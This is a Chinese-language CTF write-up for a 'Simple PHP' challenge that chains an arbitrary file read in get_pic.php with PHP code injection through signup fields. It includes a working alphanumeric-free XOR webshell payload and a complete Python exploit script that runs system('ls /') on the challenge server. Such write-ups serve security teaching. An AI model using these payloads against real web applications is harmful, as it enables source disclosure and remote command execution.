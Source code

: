 #  Simple PHP

进入网页，可以看到登录和注册两个界面，注册一个用户并登录进去。

![avatar](img/tqlctf_simple_php_0.png)
![avatar](img/tqlctf_simple_php_1.png)
![avatar](img/tqlctf_simple_php_2.png)

查看网页源码可以找到一个有意思的地方，看样子这个get\_pic.php似乎可以读取其他文件。

![avatar](img/tqlctf_simple_php_3.png)

把后面参数的png替换成index.php试试，结果以base64的形式出现，解码之后得到的是php的文件内容，说明get\_pic.php可以读取任意文件的内容，利用这个就可以得到网站的源码。

![avatar](img/tqlctf_simple_php_4.png)
![avatar](img/tqlctf_simple_php_5.png)

可以发现，在注册用户之后，后端会对post的内容进行判断，再将template中的对应位置替换成post的内容，保存为一个新的php文件。

![avatar](img/tqlctf_simple_php_6.png)
![avatar](img/tqlctf_simple_php_7.png)

password被md5了，所以只剩下user、punctuation和website可以利用，其中user的长度限制得很短，punctuation很长但不能输入字母数字，且punctuation是在php代码以外的html部分，website同理。

要把punctuation包含的php代码里面，可以在user和punctuation之间用/\* \*/注释掉，其中user的内容可以设为“eval/\*”，正好6个字符且能通过正则，再把punctuation设为“\*/(“”));/\*”，引号中是shell的内容，这样这段代码就等同于“eval(“”)”。网上可以找到无字母数字的webshell，其原理是通过异或等方式输出字母。

![avatar](img/tqlctf_simple_php_8.png)

使用这种方法，就能写出一个绕过正则的可执行代码，其内容为“assert($\_POST(\_));”。

![avatar](img/tqlctf_simple_php_9.png)

成功注册并生成新文件后，post这个文件，其中表单内容为php代码，例如用system执行系统命令。

![avatar](img/tqlctf_simple_php_10.png)

可以发现ls执行成功了，并且能在根目录看到flag文件，最后用同样的方式cat这个文件就能得到flag内容。

EXP：
```python
import requests
import hashlib

base = 'http://120.77.216.55:45323'
user = 'eval/*'
pass_ = 'aaa'
punctuation = \
    "*/(\"" + \
    "\$_ = (':' ^ '[') . ('.' ^ ']') . ('.' ^ ']') . ('_' ^ ':') . ('_' ^ '-') . ('_' ^ '+');" + \
    "\$__ = '_' . ('+' ^ '{') . ('/' ^ '`') . ('(' ^ '{') . ('(' ^ '|');" + \
    "\$___ = \$\$__;" + \
    "\$_(\$___[_]);" + \
    "\"));/*"
website = 'aaa'
signup = {
    'user': user,
    'pass': pass_,
    'website': website,
    'punctuation': punctuation,
}
requests.post(base + '/index.php', data=signup)

cookies = {
    'user': user,
    'pass': 'zsf' + hashlib.md5(pass_.encode()).hexdigest()
}

user_php = base + '/sandbox/' + hashlib.md5(user.encode()).hexdigest() + '.php'
r = requests.post(user_php, cookies=cookies, data={'_': 'system(\'ls /\');'})
print(r.text)
```
